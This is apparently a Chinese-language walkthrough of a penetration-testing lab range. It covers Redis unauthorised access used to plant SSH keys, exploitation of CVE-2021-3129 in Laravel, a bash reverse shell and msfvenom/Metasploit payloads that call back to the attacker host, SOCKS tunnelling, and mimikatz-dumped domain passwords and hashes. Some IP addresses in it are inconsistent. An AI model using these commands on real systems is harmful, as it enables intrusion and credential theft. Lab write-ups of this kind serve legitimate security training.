

### 环境准备

- 物理机:192.168.237.240
- 攻击机kali:192.168.237.250
- web1:192.168.52.10
- web2:192.168.52.20 / 192.168.93.10

- pc1:192.168.52.30 / 192.168.93.20
- pc2:192.168.93.40

### 信息收集扫ip

```cmd
#扫描c段的ip
nmap -p 1-65535 192.168.234.211
```

- 排除自己的资产


- 发现`192.168.237.211`开启了`22`,`80`,`81`,`6379`端口

```cmd
#目前可以攻击的方案
1.22端口ssh爆破(这里不使用,因为在配置环境的时候已经知道密码了,没意义)
2.80,81web端口,看看是否存在web漏洞利用
3.6379猜测redis可能存在未授权访问
```

### redis未授权访问

- 在kali上生成公钥

```bash
ssh-keygen -t rsa -C "crack@redis.io"
```


```cmd
cd /root/.ssh
ll -si
(echo -e "\n\n";cat id_rsa.pub;echo -e "\n\n") > key.txt
```


```bash
#清空redis
redis-cli -h 192.168.237.211 flushall
#登录redis
redis-cli -h 192.168.237.211 -p 6379
```


- 这里发现没权限,没办法

### 更换web尝试

- `80`端口尝试扫目录发现没有东西,主页打开都是`404`

- `81`端口看到了`laravel`框架


- 扫描发现存在`CVE-2021-3129`远程命令执行漏洞


- 执行命令反弹shell

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.237.250/8888 <&1'
```


- 反弹成功


- 上传webshell方便后续操作


### 提权

- 利用shell提权


```bash
#使用交互式bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### docker逃逸

```bash
msfvenom linux/x86/meterpreter/reverse_tcp LHOST=192.168.237.250 LPORT=6667 -f elf > shell_1.elf
```


```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDDichPeEwPhKjsczaVPFqLKAmaY5Su6oSo9AW5DZTHw root@kali
```

一言难尽…

### 回到redis未授权

```bash
# 1. 生成 RSA 密钥对
ssh-keygen -t rsa

# 2. 将公钥保存到 key.txt 文件中
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt

# 3. 将公钥上传到 Redis 服务器
cat key.txt | redis-cli -h 192.168.237.211 -x set xxx

# 4. 连接到 Redis 服务
redis-cli -h 192.168.237.211 -p 6379

# 5. 配置 Redis 数据目录和文件名
config set dir /root/.ssh
config set dbfilename authorized_keys
save

# 6. 退出 Redis
exit

# 7. 通过 SSH 登录目标机器
ssh 192.168.237.211
```


### 内网信息收集


- 在web1上安装`nmap`,c段扫出两台主机`20,30`


### 端口转发

```bash
# msf上线
use exploit/multi/script/web_delivery
set target 7    # 选择目标系统
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.61.15
set lport 1111
exploit
# 将生成的代码放入web1执行
# 查看会话
sessions
# 添加路由
route add 192.168.52.0 255.255.255.0 1
# 打印查看
route print
# 回到会话
sessions 1


# 工具准备(kali)
git clone https://github.com/idlefire/ew
# 上传文件(进入meterpreter)
upload ew/

# 在kali执行(需要赋予权限)
./ew_for_linux64 -s rcsocks -l 1080 -e 1234
# 在web1执行(需要赋予权限)
nohup ./ew_for_linux64 -s rssocks -d 192.168.1.9 -e 1234
```

- 如图


- 在浏览器配置代理`socks5 127.0.0.1 1080`




- 成功访问到`52段网络`


- 上传shell


- 发现system权限,拿下第二台主机


### 横向移动

- 发现`192.168.52.30`这台主机还有93段的网卡

- 上线cs获取domain


以下是从 `mimikatz` 输出中提取的账号和密码信息：

###  **管理员账户 (Administrator)**  
- **用户名**: Administrator  
- **域名**: WHOAMIANONY  
- **密码** (明文): `Whoami2021`  
- **NTLM哈希**: ab89b1295e69d353dd7614c7a3a80cec  
- **SHA1哈希**: 2bc4124300a6a8fc0ca10891823d36c64e4b3a40  

### **用户账户 (bunny)**  
- **用户名**: bunny  
- **域名**: WHOAMIANONY  
- **密码** (明文): `Bunny2021`
- **NTLM哈希**: cc567d5556030b7356ee4915ff098c8f  
- **SHA1哈希**: 3747632756191e3350e53211c63f804eb163638f  

